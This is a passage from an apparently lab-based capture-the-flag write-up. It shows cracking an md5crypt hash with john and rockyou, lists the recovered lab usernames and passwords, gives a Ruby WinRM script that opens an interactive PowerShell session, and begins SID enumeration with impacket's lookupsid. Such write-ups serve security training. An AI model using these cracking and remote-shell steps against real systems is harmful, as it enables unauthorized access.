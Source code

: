 For the hashed password we use john with rockyou:

    :::text
    john hash -w=~/tools/password_lists/rockyou.txt
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    stealth1agent    (?)

We now have three potential users as well as three potential passwords. The
users:
  1. admin
  2. rout3r
  3. Hazard

The passwords:
  1. `$uperP@ssword`
  2. `Q4)sJu\Y8qz*A3?d`
  3. `stealth1agent`

We want to connect using the WinRM service. We can use
[evil winrm](https://github.com/Hackplayers/evil-winrm) as well as a simple
ruby script:

    :::ruby
    require 'winrm'

    conn = WinRM::Connection.new(
      endpoint: 'http://10.10.10.149:5985/wsman',
      user: 'rout3r',
      password: 'Q4)sJu\Y8qz*A3?d',
    )

    command=""

    conn.shell(:powershell) do |shell|
        until command == "exit\n" do
            print "PS > "
            command = gets
            output = shell.run(command) do |stdout, stderr|
                STDOUT.print stdout
                STDERR.print stderr
            end
        end
        puts "Exiting with code #{output.exitcode}"
    end

Trying all the possible combination won't give up a shell. We need more
enumeration. We launch
[impacket's lookupsid](https://github.com/SecureAuthCorp/impacket/) using the
different user/password combinations. One is working with the Hazard user and
the `stealth1agent` password:

    :::text
    python lookupsid.py Hazard:stealth1agent@10.10.10.149
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
